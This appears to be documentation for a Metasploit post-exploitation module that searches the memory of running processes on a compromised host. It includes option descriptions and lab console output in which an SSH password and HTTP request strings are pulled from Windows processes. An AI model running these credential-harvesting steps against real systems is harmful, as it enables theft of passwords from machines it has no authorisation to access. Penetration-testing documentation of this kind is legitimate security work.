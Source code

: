 ## Vulnerable Application

This module allows for searching the memory space of running processes using Meterpreter's
`stdapi_sys_process_memory_search` command for potentially sensitive data such as passwords.

## Verification Steps

1. Start `msfconsole`
1. Get a Meterpreter session
1. Do: `use post/multi/gather/memory_search`
1. Do: `set SESSION <Session ID>`
1. Do: `set PROCESS_NAMES_GLOB <process_names_regex>`
1. Do: `set PROCESS_IDS <Process ID>`
1. Do: `set REGEX <regex>`
1. Do: `run`

## Options

### PROCESS_NAMES_GLOB

Regular expression used to target processes. (default: `ssh.*`)

### PROCESS_IDS

Comma delimited process ID/IDs to search through. (default: `nil`)

### REGEX

Regular expression to search for within memory. (default: `publickey,password.*`)

### MIN_MATCH_LEN

The minimum number of bytes to match. (default: `5`)

### MAX_MATCH_LEN

The maximum number of bytes to match. (default: `127`)

### REPLACE_NON_PRINTABLE_BYTES

Replace non-printable bytes with ".". (default: `true`)

### SAVE_LOOT

Save the memory matches to loot. (default: `true`)


## Scenarios

### Windows 10 - OpenSSH_9.4p1, OpenSSL 3.1.2 1 Aug 2023

In this scenario, the Windows target is connected to a different host using `ssh.exe` using the password `myverysecretpassword`:
```
msf post(multi/gather/memory_search) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  3         meterpreter x64/windows  DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB  192.168.112.1:4444 -> 192.168.112.129:55513 (192.168.112.129)

msf post(multi/gather/memory_search) > run session=-1 regex="publickey,password.*" process_ids='' process_names_glob="ssh.*"

[*] Running module against - DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB (192.168.112.129). This might take a few seconds...
[*] Getting target processes...
[*] Running against the following processes:
        ssh.exe (pid: 4292)

[*] Memory Matches for ssh.exe (pid: 4292)
======================================

 Match Address       Match Length  Match Buffer                                                                                    Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                    -------------------  ------------------
 0x0000000A00060DF0  127           "publickey,password......3.......myverysecretpassword....................#.........#..........  0x0000000A00000000   0x0000000000090000
                                   ...........S......................"

[*] Post module execution completed
```

### Windows 10 - Python3 HTTP Server

In this scenario, the Windows target is running the `http.server` module in Python:
```
msf post(multi/gather/memory_search) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  3         meterpreter x64/windows  DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB  192.168.112.1:4444 -> 192.168.112.129:55513 (192.168.112.129)
  
msf post(multi/gather/memory_search) > run session=-1 regex="GET /.*" process_ids='' process_names_glob="python.*|[Ww]indows[Tt]erminal.*"

[*] Running module against - DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB (192.168.112.129). This might take a few seconds...
[*] Getting target processes...
[*] Running against the following processes:
        WindowsTerminal.exe (pid: 9168)
        python.exe (pid: 2816)

[*] Memory Matches for WindowsTerminal.exe (pid: 9168)
==================================================

 Match Address       Match Length  Match Buffer                                                                                    Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                    -------------------  ------------------
 0x00000121C3458649  127           "GET /.portable HTTP/1.1\" 200 -...::ffff:192.168.112.1 - - [17/Jan/2024 14:36:38] \"GET /favi  0x00000121C3449000   0x000000000001B000
                                   con.ico HTTP/1.1\" 404 -..windows-ter"

[*] Memory Matches for python.exe (pid: 2816)
=========================================

 Match Address       Match Length  Match Buffer                                                                                    Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                    -------------------  ------------------
 0x0000013A0E3017D1  127           "GET /.portable HTTP/1.1\" 200 -.....:.....Q.:...................0.Q.:...0.Q.:.....Q.:.....Q.:  0x0000013A0E270000   0x00000000000FF000
                                   ...pAR.:...pAR.:...0.Q.:...0.Q.:..."
 0x0000013A1063DC21  127           "GET /.portable HTTP/1.1\" 200 -...t-black.ico...`@l.:.....h.:..............&.............l.&.  0x0000013A105E0000   0x0000000000100000
                                   ....l.&.....l.&.....l.&......k.:..."
 0x0000013A1063E5B1  127           "GET /.portable HTTP/1.1\" 200 -...b.l.e...o.....P.c.:...s.e.r.s.\\.w.i.n.1.0.\\.s.c.o.o.p.\\.  0x0000013A105E0000   0x0000000000100000
                                   a.p.p.s.\\.w.i.n.d.o.w.s.-.t.e.r.m.i.n."
 0x0000013A1067EC41  127           "GET /Images/ HTTP/1.1\" 200 -...@.g.:...p..&....2.................012345........<li><a href=\  0x0000013A105E0000   0x0000000000100000
                                   "defaults.json\">defaults.json</a></l"
 0x0000013A106CADD0  127           "GET /.portable HTTP/1.1...p&.............x..:...P...:...0.l.:....ta$.e$j..k.:... lk.:........  0x0000013A105E0000   0x0000000000100000
                                   ...0.l.:......................&..."
 0x0000013A106CF940  127           "GET /.portable HTTP/1.1...........l.:...................Pf.&.....^.&......e.:................  0x0000013A105E0000   0x0000000000100000
                                   ....Sn&....s.......P.l.:...p..&..."

[*] Post module execution completed
```
